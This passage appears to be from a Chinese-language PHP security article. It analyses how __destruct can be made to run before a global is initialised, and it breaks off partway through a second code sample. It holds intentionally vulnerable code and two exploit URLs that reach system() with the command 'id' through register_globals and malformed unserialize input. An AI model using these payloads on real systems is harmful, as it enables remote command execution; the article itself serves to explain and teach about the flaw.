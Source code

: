 #### 潜在安全隐患

``` php
<?php

class Core {
    function __destruct() {
        global $shutdown_functions;

        if($shutdown_functions && is_array($shutdown_functions)) {
			call_user_func($shutdown_functions['function'], $shutdown_functions['arguments']);
		}
	}
}

$core = new Core;

if($_GET['filename']) {
	require basename($_GET['filename']);
}

$id = unserialize($_GET['id']);

$shutdown_functions = array();

?>
```

上面的代码，如果可以控制 $shutdown\_functions，就可以利用 Core 类中的 \_\_destruct() 方法来执行任意代码，但 $shutdown\_functions 是有初始化的，所以必须在 $shutdown\_functions 初始化前执行 \_\_destruct() 方法才能利用。

根据上面对析构函数执行阶段的分析，这段代码可以有利用两个方式：

i）利用 require 包含不存在的文件造成 Fatal error 错误，在 $shutdown\_functions 初始化前执行 \_\_destruct()。

在 PHP5 < 5.1.3 的运行环境下

``` php
foo.php?filename=cywm528&shutdown_functions[function]=system&shutdown_functions[arguments]=id
```

ii）利用 unserialize() 函数对非法格式序列化字符串进行反序列化的「特性」在 $shutdown\_functions 初始化之前执行 \_\_destruct()。
``` php
foo.php?id=O:4:"Core":&shutdown_functions[function]=system&shutdown_functions[arguments]=id
```

再看下面的代码片段：
``` php
<?php

class Core {
    function __construct() {
		$protected = array("_GET", "_POST", "_SERVER", "_COOKIE", "_FILES", "_ENV", "GLOBALS");
		foreach($protected as $var) {
			if(isset($_REQUEST[$var]) || isset($_FILES[$var])) {
				exit("Hacking attempt");
			}
		}

		if(@ini_get("register_globals") == 1) {
			$this->unset_globals($_POST);
			$this->unset_globals($_GET);
			$this->unset_globals($_FILES);
			$this->unset_globals($_COOKIE);
		}
	}

	function unset_globals($array) {
```